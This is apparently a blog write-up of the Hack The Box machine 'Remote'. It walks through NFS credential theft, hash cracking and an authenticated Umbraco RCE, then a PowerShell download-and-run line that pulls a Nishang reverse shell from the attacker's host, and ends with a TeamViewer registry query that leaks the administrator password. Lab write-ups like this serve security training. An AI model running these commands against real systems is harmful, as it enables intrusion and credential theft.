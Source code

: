 ```yaml
---
title: Remote
date: 2023-12-16 09:45:47 +07:00
modified: 2023-12-16 09:45:47 +07:00
tags: [ Remote, NFS, Anonymous, decrypt, CME, Umbraco, CVE-2019-18988, Teamviwer, Nishang, Windows, OSCP, Writeup]
description: Write Up for Hackthebox Machine Remote
---
```



![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



<img src="https://photos.squarezero.dev/file/abir-images/Remote/logo.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Remote</font>

​		21<sup>th</sup> March 2020

​		Machine Author(s): [mrb3n](https://app.hackthebox.com/users/2984)

​		

### Description:

Remote is an easy difficulty Windows machine that features an Umbraco CMS installation. Credentials are found in a world-readable NFS share. Using these, an authenticated Umbraco CMS exploit is leveraged to gain a foothold. A vulnerable TeamViewer version is identified, from which we can gain a password. This password has been reused with the local administrator account. Using `psexec` with these credentials returns a SYSTEM shell. 

### Difficulty:

`Easy`


# Enumeration

First I check for available open ports.

`nmap -p- --min-rate=10000 10.10.10.180`

`nmap -sC -sV -p21,22,80,135,139,445,5985,39517 10.10.10.180 -oA ./nmap/remote `

|Ports|Service
|21| ftp     Microsoft ftpd
|80| http    Microsoft HTTPAPI httpd 2.0 
|111| rpcbind
|139| netbios-ssn Microsoft Windows netbios-ssn
|445| microsoft-ds
|2049| nlockmgr
|5985| Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

![](https://photos.squarezero.dev/file/abir-images/Remote/1.png)

First I checked the FTP server. It allowed for anonymous login but it was empty.

![](https://photos.squarezero.dev/file/abir-images/Remote/2.png)

Next, I check out the website. On the `/people` there are some names we can take notes of.

![](https://photos.squarezero.dev/file/abir-images/Remote/3.png)

I ran `dirsearch` in the background and found some interesting directories.

```Bash
dirsearch -u http://10.10.10.180 -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -t 20 -f -e php,txt,html,aspx
```

![](https://photos.squarezero.dev/file/abir-images/Remote/4.png)

We can find a login page at `/umbraco` which is a CME. 

![](https://photos.squarezero.dev/file/abir-images/Remote/5.png)

We can find a NFS share.

![](https://photos.squarezero.dev/file/abir-images/Remote/6.png)

Let's mount the share.

```bash
mkdir target-NFS
sudo mount -t nfs 10.10.10.180:/site_backups ./target-NFS -o nolock
cd target-NFS
```
![](https://photos.squarezero.dev/file/abir-images/Remote/7.png)


# Foothold

After looking for a bit I found `Umbraco.sdf` and we can password hashes for users inside it

![](https://photos.squarezero.dev/file/abir-images/Remote/8.png)

I used [crackstation](https://crackstation.net/)

![](https://photos.squarezero.dev/file/abir-images/Remote/9.png)

Creds → `admin@htb.local : baconandcheese`

I can now log into the website admin panel.

![](https://photos.squarezero.dev/file/abir-images/Remote/10.png)

After looking for a bit I found this authenticated RCE exploit from [ExploitDB](https://www.exploit-db.com/exploits/49488). I downloaded the Python file and checked out the payload.
It takes the user and password for authentication, takes the type of shell and uses arguments to execute.

![](https://photos.squarezero.dev/file/abir-images/Remote/11.png)

We have RCE on the server now.

`python3 payload.py -u "admin@htb.local" -p "baconandcheese" -i "http://10.10.10.180" -c powershell.exe -a "whoami"`

![](https://photos.squarezero.dev/file/abir-images/Remote/12.png)

Next, I used [Nishang](https://github.com/samratashok/nishang) `Invoke-PowerShellTcp.ps1` to get a shell.

At the bottom of the PowerShell script, I added my reverse shell IP and port.

`Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 4444`

Then hosted the payload using the python3 server.

`python3 -m http.server`

After that I used RCE payload to download my PowerShell script and get a shell

`python3 payload.py -u "admin@htb.local" -p "baconandcheese" -i "http://10.10.10.180" -c powershell.exe -a "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.16:8000/Invoke-PowerShellTcp.ps1')"`

![](https://photos.squarezero.dev/file/abir-images/Remote/13.png)

![](https://photos.squarezero.dev/file/abir-images/Remote/14.png)

![](https://photos.squarezero.dev/file/abir-images/Remote/15.png)


# Privilege Escalation

In tasklist We can see `TeamViewer_Service.exe`

![](https://photos.squarezero.dev/file/abir-images/Remote/16.png)

After looking for a bit I found this [CVE-2019-18988](https://github.com/mr-r3b00t/CVE-2019-18988/blob/master/manual_exploit.bat) where Teamviwer leaking creds.

![](https://photos.squarezero.dev/file/abir-images/Remote/17.png)

We can leak the creds using this

`reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7`

![](https://photos.squarezero.dev/file/abir-images/Remote/18.png)

Next, I used this decryptor to decrypt the password. 

![](https://photos.squarezero.dev/file/abir-images/Remote/19.png)

Creds → `administrator : !R3m0te!`

Now we can use WINRM to log in and get the flag.


![](https://photos.squarezero.dev/file/abir-images/Remote/20.png)